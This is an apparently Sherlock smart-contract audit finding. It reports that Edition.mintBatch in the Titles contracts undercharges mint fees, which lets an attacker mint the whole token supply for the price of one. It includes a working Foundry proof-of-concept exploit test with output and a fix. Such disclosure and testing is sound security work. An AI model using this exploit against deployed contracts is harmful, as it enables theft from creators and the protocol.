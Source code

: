 Passive Sandstone Chinchilla

high

# Attacker can mint the whole supply of Work tokens for a price of one token

## Summary
Users can mint the whole supply of Work tokens for a price of one token by calling [`Edition.mintBatch(address[],uint256,uint256,bytes)`](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/editions/Edition.sol#L304-L320)

## Vulnerability Detail
`Edition.mintBatch(address[],uint256,uint256,bytes)` function mints `_amount` of tokens for every receiver in the `receivers_` address array.

In this function `FeeManager.collectMintFee` is called with the `_amount` from the function parameters, which represents how many tokens will be minted for 1 receiver. This is where the mistake is made - `FeeManager.collectMintFee` function expects the total amount tokens that will be minted.
```solidity
    function mintBatch(
        address[] calldata receivers_,
        uint256 tokenId_,
        uint256 amount_,
        bytes calldata data_
    ) external payable {
        FEE_MANAGER.collectMintFee{value: msg.value}(
            this, tokenId_, amount_, msg.sender, address(0), works[tokenId_].strategy
        );
        ...
    }
```

Inside the [`FeeManager`](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/fees/FeeManager.sol) contract `getMintFee` function is responsible to calculate how big of a fee in ETH should be paid. The `quantity_` parameter in this function is the `amount_` from `Edition.mintBatch` function.
```solidity
    function getMintFee(Strategy memory strategy_, uint256 quantity_)
        public
        view
        returns (Fee memory fee)
    {
        // Return the total fee (creator's mint fee + protocol flat fee)
        return Fee({asset: ETH_ADDRESS, amount: quantity_ * (strategy_.mintFee + protocolFlatFee)});
    }
```

Later in the `FeeManager` contract the returned value from `getMintFee` function is used in the `_collectMintFee` function, which manages all the ETH transfers. If there is enough ETH sent with `collectMintFee` function, it will succeed.

Because of the mistake in the `Edition.mintBatch(address[],uint256,uint256,bytes)` function, it allows users to mint any amount of tokens (till `maxSupply`) for price of one token.

### POC
<details>
<summary>Foundry POC</summary>
  Attacker mints the whole supply for price of one token

  ### Instructions
  Copy the test below and add it to `Edition.t.sol` test contract.
  Run `forge test --mt "test_mintBatch_issue" --mc "EditionTest" -vv` command
  
  Test will succeed
  ```shell
  [PASS] test_mintBatch_issue() (gas: 254888)
Logs:
  Bob ETH balance: 1000000000000000000
  Bob Work balance: 0
  Bob ETH balance after: 989400000000000000
  Bob Work balance after: 10

  ```

  ### Test function
  ```solidity
    function test_mintBatch_issue() public {
        // It is possible to mint the whole Work for the price of one token

        address bob = address(0x123);
        vm.deal(bob, 1 ether);

        // For information
        uint256 balanceOfBob = address(bob).balance;
        console.log("Bob ETH balance: %d", balanceOfBob); // 1 ETH
        console.log("Bob Work balance: %d", edition.balanceOf(bob, 1)); // 0

        // Cost of one token is 0.01 ETH + 0.0006 ETH
        uint256 costOfOneMint = 0.01 ether + 0.0006 ether; // mintFee + protocolFlatFee

        // Bob wants to mint the whole work for the price of one mint
        uint256 tokensToMint = edition.maxSupply(1) - edition.totalSupply(1);

        // Create a receivers array with Bob's address in the length of tokensToMint
        address[] memory receivers = new address[](tokensToMint);
        for (uint256 i = 0; i < tokensToMint; i++) {
            receivers[i] = bob;
        }

        // Bob executes the mintBatch
        vm.prank(bob);
        edition.mintBatch{value: costOfOneMint}(receivers, 1, 1, new bytes(0));

        // Bob should have tokensToMint works at one mint price
        uint256 expectedBalanceOfBob = balanceOfBob - costOfOneMint;
        uint256 bobBalanceAfter = address(bob).balance;
        uint256 bobWorkBalanceAfter = edition.balanceOf(bob, 1);
        console.log("Bob ETH balance after: %d", bobBalanceAfter);
        console.log("Bob Work balance after: %d", edition.balanceOf(bob, 1));

        assertEq(edition.balanceOf(bob, 1), tokensToMint);
        assertEq(bobBalanceAfter, expectedBalanceOfBob);
    }
  ```
</details>


## Impact
The whole Work supply can be minted for price of one mint:
- User (attacker) gets the whole supply for a price of one mint.
- Protocol, Edition creator and referrers take the loss.

## Code Snippet
[`Edition.mintBatch`](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/editions/Edition.sol#L304-L320)
```solidity
    function mintBatch(
        address[] calldata receivers_,
        uint256 tokenId_,
        uint256 amount_,
        bytes calldata data_
    ) external payable {
        // wake-disable-next-line reentrancy
        // @audit-issue User can call `mintBatch` with X receivers and pay only price of minting 1 token
        FEE_MANAGER.collectMintFee{value: msg.value}(
            this, tokenId_, amount_, msg.sender, address(0), works[tokenId_].strategy
        );

        for (uint256 i = 0; i < receivers_.length; i++) {
            _issue(receivers_[i], tokenId_, amount_, data_);
        }

        _refundExcess();
    }
```

## Tool used

Manual Review

## Recommendation
In `Edition.mintBatch` function calculate the total fee required for all of the tokens together.
Example:
```solidity
    function mintBatch(
        address[] calldata receivers_,
        uint256 tokenId_,
        uint256 amount_,
        bytes calldata data_
    ) external payable {
        // wake-disable-next-line reentrancy
        FEE_MANAGER.collectMintFee{value: msg.value}(
            this,
            tokenId_,
            amount_ * receivers_.length,
            msg.sender,
            address(0),
            works[tokenId_].strategy
        );

        for (uint256 i = 0; i < receivers_.length; i++) {
            _issue(receivers_[i], tokenId_, amount_, data_);
        }

        _refundExcess();
    }
```
